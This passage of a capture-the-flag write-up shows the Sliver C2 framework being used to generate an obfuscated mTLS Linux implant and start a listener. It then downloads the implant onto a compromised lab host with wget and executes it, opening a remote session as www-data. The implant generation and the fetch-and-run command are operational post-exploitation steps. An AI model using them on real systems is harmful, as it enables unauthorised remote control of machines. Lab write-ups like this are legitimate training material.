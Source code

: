 **Now, we can use Sliver C2 to generate an implant (payload) which using the mTLS for connection:**
```
sliver > generate --mtls 10.9.0.253 --os linux --save ./implant

[*] Generating new linux/amd64 implant binary
[*] Symbol obfuscation is enabled
[*] Build completed in 34s
[*] Implant saved to /root/ctf/thm/ctf/toc2/implant
```

**Start mTLS listener:**
```
sliver > mtls

[*] Starting mTLS listener ...

[*] Successfully started job #2

sliver > jobs

 ID   Name   Protocol   Port  
==== ====== ========== =======
 1    grpc   tcp        31337 
 2    mtls   tcp        8888
```

**Deliver the implant, and execute it:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/toc2]
└─# python3 -m http.server 80                                                            
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

www-data@toc:/var/www/html/cmsms$ wget http://10.9.0.253/implant -O /tmp/implant;chmod +x /tmp/implant

www-data@toc:/var/www/html/cmsms$ /tmp/implant
```

**Client:**
```
[*] Session e546ea92 PLAIN_BANKER - 10.10.248.228:39856 (toc) - linux/amd64 - Thu, 24 Nov 2022 04:14:41 EST

sliver > sessions

 ID         Transport   Remote Address        Hostname   Username   Operating System   Health  
========== =========== ===================== ========== ========== ================== =========
 e546ea92   mtls        10.10.248.228:39856   toc        www-data   linux/amd64        [ALIVE]
```

**Now we can interact with the new session!**
```
sliver > sessions -i e546ea92

[*] Active session PLAIN_BANKER (e546ea92)

sliver (PLAIN_BANKER) > 
```
